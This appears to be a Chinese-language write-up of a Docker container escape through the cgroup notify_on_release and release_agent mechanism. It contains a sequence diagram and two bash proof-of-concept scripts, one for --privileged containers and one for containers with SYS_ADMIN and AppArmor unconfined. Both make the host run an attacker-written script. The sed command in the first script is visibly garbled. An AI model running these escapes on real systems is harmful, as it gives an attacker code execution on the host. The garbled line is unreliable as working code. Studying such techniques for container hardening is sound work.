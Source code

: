 ```mermaid
	Note over Docker: 激活 notify_on_release

	rect rgb(200,150,255)
	Note over Docker,宿主机: 写入一个快速终止的程序到 /path1/cgroup.procs
	Note over Docker,宿主机: 在宿主机上为 upperdir/path1/cgroup.procs 
	end

	Note over Docker,宿主机: cgroup 子系统下任务结束

	Note over 宿主机: kernel 发现 notify 通知 release_agent

	Note over 宿主机: 执行脚本 upperdir/path2/badcode

	rect rgb(200,150,255)
	Note over 宿主机: 输出到 upperdir/output
	Note over Docker: 攻击者获取到 /output 的输出(命令返回)
	end
```

而这里一般有 三个版本的 POC

### 第一个版本
这个版本采用的是普通的带 privileged 参数的 docker

`docker run --privilege -it ubuntu /bin/bash`

> 这种其实也可以是 mount 出 主机所在的块设备 chroot 进行逃逸

这里是第一版本的 POC

```bash
cgroup_dir=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
# also to /sys/fs/cgroup/rdma/release_agent 
mkdir -p $cgroup_dir/test_subsystem
echo 1 >$cgroup_dir/test_subsystem/notify_on_release
host_overlay2_fs_dir=`sed -n 's/.*\upperdir=([^,]_)._/\1/p' /etc/mtab`
echo '#!/bin/sh' > /script
echo "touch /hacked_by_tunan_use_cg_notify_on_release_and_privileged_containter" >> /script
echo "$host_overlay2_fs_dir/script" > $cgroup_dir/release_agent
chmod a+x /script
sh -c "echo \$\$ > $cgroup_dir/test_subsystem/cgroup.procs"
```

### 第二个版本
这个版本相比之前需要的权限更为低一点 

所以这里 poc 也合适于上一个版本 

`docker run --cap-add=SYS_ADMIN --security-opt apparmor=unconfined -it ubuntu /bin/bash`

``` bash
mkdir /tmp/cgroup && mount -t cgroup -o rdma cgroup /tmp/cgroup  
# 增加挂载cgroups文件系统操作
cgroup_dir=/tmp/cgroup  
# 修改cgroup_dir对应目录路径
mkdir -p $cgroup_dir/test_subsystem_1
echo 1 > $cgroup_dir/test_subsystem_1/notify_on_release
host_overlay2_fs_dir=`sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /etc/mtab`
echo '#!/bin/sh' > /script
echo "touch /hacked_by_tunan_use_cg_notify_on_release_and_sys_admin_containter" >> /script
echo "$host_overlay2_fs_dir/script" > $cgroup_dir/release_agent
chmod a+x /script
sh -c "echo \$\$ > $cgroup_dir/test_subsystem_1/cgroup.procs"
```

